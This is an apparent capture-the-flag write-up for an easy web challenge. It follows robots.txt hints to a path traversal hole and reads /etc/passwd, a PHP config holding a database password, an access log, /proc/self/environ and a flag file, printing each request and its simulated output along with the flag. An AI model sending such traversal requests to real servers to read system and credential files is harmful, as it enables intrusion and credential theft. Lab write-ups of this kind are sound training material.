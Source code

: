 The Robot's Trail
Author: Expli0it3r

Category: Web

Difficulty: Easy

Description
You enter a virtual maze, a labyrinth of shifting corridors and endless paths. A guardian robot patrols the floor, leaving a trail behind as it moves. Follow the path it carves, trace its movements carefully, and uncover the key it leads you to. Only by following the robot’s trail can you reach the door to the next floor.

Writeup
First inspect or look at the source code

<div class="hidden">
        <p>Start by checking what this site tells search engine bots in <a href="/robots.txt" style="color: #00bcd4;">robots.txt</a></p>
</div>
so we get a hint to go to the robots.txt endpoint on going there u get

User-agent: *

# We value our digital privacy and have restricted access to certain system-level configurations.
Disallow: /file?path=../../etc/passwd
Disallow: /file?path=../../../etc/passwd

# Hint for curious explorers: 
# Sometimes system files like /etc/passwd can reveal interesting information...
# But remember to respect privacy boundaries!
so u go to the /file?path=../../etc/passwd endpoint and it says

"root:x:0:0:root:/root:/bin/bash\n"
            "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n"
            "bin:x:2:2:bin:/bin:/usr/sbin/nologin\n"
            "sys:x:3:3:sys:/dev:/usr/sbin/nologin\n"
            "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n"
            "webadmin:x:1000:1000:Check the web server config at /var/www/html/config.php:/home/webadmin:/bin/bash\n"
so u try the /file?path=/var/www/html/config.php:/home/webadmin:/bin/bash and u get

"<?php\n"
            "// Database configuration\n"
            "$db_host = 'localhost';\n"
            "$db_user = 'admin';\n"
            "$db_pass = 's3cr3t_p@ssw0rd';\n"
            "// Debug info: Check the access logs for unusual activity\n"
            "// Log location: /var/log/apache2/access.log\n"
            "?>"
so u try the /file?path=/var/log/apache2/access.log and u get

"127.0.0.1 - - [01/Jan/2023:10:30:45 +0000] \"GET / HTTP/1.1\" 200 1234 \"-\" \"Mozilla/5.0\"\n"
            "192.168.1.100 - - [01/Jan/2023:10:31:22 +0000] \"GET /file?path=../../etc/passwd HTTP/1.1\" 200 567 \"-\" \"Python-urllib\"\n"
            "10.0.0.50 - - [01/Jan/2023:10:32:15 +0000] \"GET /admin HTTP/1.1\" 404 289 \"-\" \"curl\"\n"
            "# Interesting environment variables might be found at /proc/self/environ\n"
            "203.0.113.5 - - [01/Jan/2023:10:33:01 +0000] \"POST /login HTTP/1.1\" 302 - \"-\" \"Mozilla/5.0\"\n"
and then u go to /file?path=/proc/self/environ and u get

"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\n"
            "HOSTNAME=web-server-01\n"
            "USER=www-data\n"
            "HOME=/var/www\n"
            "SECRET_LOCATION=/home/ctf/.secret\n"
            "PWD=/var/www/html\n"
            "LANG=C.UTF-8\n"
            "SHLVL=1\n"
and then u go to /file?path=/home/ctf/.secret and u get

"Directory listing for /home/ctf/.secret:\n"
            "total 12\n"
            "drwx------ 2 ctf ctf 4096 Jan  1 10:00 .\n"
            "drwxr-xr-x 5 ctf ctf 4096 Jan  1 09:55 ..\n"
            "-r-------- 1 ctf ctf   48 Jan  1 10:00 flag.txt\n"
            "\n"
and then u go to /home/ctf/.secret/flag.txt and u get the flag!

Flag: citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}
